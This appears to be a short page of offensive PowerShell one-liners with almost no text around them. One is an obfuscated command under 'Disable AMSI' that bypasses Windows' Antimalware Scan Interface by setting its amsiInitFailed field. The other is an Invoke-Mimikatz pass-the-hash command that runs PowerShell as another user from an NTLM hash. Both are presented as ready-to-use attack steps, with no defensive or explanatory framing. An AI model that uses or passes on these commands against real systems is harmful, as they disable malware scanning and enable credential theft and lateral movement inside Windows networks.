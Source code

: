 #### Disable AMSI ####

```sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; (GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(("{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ))."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),("{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"(${n`ULl},${t`RuE} )```

#### PTH ####

```Invoke-Mimikatz -command '"sekurlsa::pth /user:$name /domain:$domain /ntlm:$hash /run:powershell.exe"'```
